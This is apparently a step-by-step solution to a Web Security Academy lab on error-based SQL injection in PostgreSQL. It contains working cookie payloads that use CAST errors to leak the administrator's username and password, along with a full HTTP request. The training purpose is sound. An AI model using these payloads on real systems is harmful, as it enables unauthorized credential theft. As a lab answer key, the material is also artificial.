

---

## Lab Summary (Plain English)

The lab has a vulnerability where you can make the database **print passwords in error messages**. You need to steal the `administrator` user's password and log in.

---

## Step-by-Step Breakdown

### Step 1: Find The Vulnerability

**What you do:** Add a single quote `'` to your TrackingId cookie.

```
TrackingId=ogAZZfxtOKUELbuJ'
```

**What happens:** The database gets confused and shows an error with the full query.

**Why this works:** The extra quote breaks the SQL syntax, and the database helpfully prints the query in the error message.

---

### Step 2: Fix The Syntax With Comments

**What you do:** Add `--` (two dashes) to comment out the rest.

```
TrackingId=ogAZZfxtOKUELbuJ'--
```

**What happens:** The database ignores everything after `--`, including the problematic closing quote.

**Result:** No more error — the query is now valid.

---

### Step 3: Test CAST() With A Simple Query

**What you do:** Add `AND 1=CAST((SELECT 1) AS int)--`

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```

**What happens:** 
- `SELECT 1` returns the number 1
- `CAST(...AS int)` converts it to an integer (already an integer)
- `1=1` is true
- No error — the query works

**Why this matters:** You've proven you can inject a `CAST()` statement.

---

### Step 4: Try To Get Usernames

**What you do:** Replace `SELECT 1` with `SELECT username FROM users`

```
TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
```

**What happens:** The error message is truncated (cut off) because the query is too long.

**Problem:** Your comment `--` gets cut off, so the syntax breaks.

---

### Step 5: Free Up Characters

**What you do:** Delete the original TrackingId value to make room.

```
TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
```

**Before:** `ogAZZfxtOKUELbuJ' AND 1=CAST(...`
**After:** `' AND 1=CAST(...`

**Why:** The lab has a character limit. Shorter payload = more room for your attack.

---

### Step 6: Handle Multiple Rows

**What you get:** An error saying the query returned more than one row.

**Why:** The `users` table has many users. `SELECT username FROM users` returns ALL of them.

**Fix:** Add `LIMIT 1` to return only one row.

```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

**What happens:** The error message now shows the first username:

```
ERROR: invalid input syntax for type integer: "administrator"
```

**Success!** You now know the first user is `administrator`.

---

### Step 7: Get The Password

**What you do:** Change `username` to `password`

```
TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

**What happens:** The error message shows the administrator's password:

```
ERROR: invalid input syntax for type integer: "sUp3rS3cr3tP@ssw0rd"
```

---

### Step 8: Log In

Use the password to log in as `administrator` and solve the lab.

---

## Key Differences: Oracle vs PostgreSQL

| Feature | Oracle | PostgreSQL (this lab) |
|---------|--------|----------------------|
| String concatenation | `||` | `||` (same) |
| Dummy table | `FROM dual` | No dummy table needed |
| Limit results | `ROWNUM <= 1` | `LIMIT 1` |
| Comment syntax | `--` (same) | `--` (same) |
| CAST syntax | `CAST(...AS int)` | `CAST(...AS int)` (same) |

---

## Why Your Oracle Payloads Didn't Work

| Your payload | Why it failed in this lab |
|--------------|--------------------------|
| `FROM dual` | PostgreSQL doesn't have a `dual` table |
| `''administrator''` (doubled quotes) | PostgreSQL doesn't need this escape method |
| Nested `SELECT` with `FROM dual` | Syntax error in PostgreSQL |

---

## The Correct Payload For This Lab

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

---

## Full HTTP Request

```http
GET / HTTP/2
Host: lab-url.web-security-academy.net
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

---

## One-Sentence Summary

> **This lab uses PostgreSQL, not Oracle — the working payload is `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` which forces the database to convert the admin's password to an integer, fail, and print the password in the error message, giving you the password in one request.**


